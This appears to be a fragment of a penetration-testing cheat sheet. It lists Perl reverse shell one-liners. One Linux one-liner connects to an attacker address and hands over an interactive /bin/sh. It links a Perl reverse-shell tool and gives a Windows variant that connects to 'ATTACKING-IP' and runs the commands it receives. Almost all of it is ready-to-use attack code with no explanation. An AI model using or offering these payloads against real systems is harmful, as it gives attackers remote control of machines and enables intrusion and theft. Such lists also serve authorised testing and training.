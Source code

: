 ```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### perl-reverse-shell

​​[http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

### Perl Windows Reverse Shell

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```



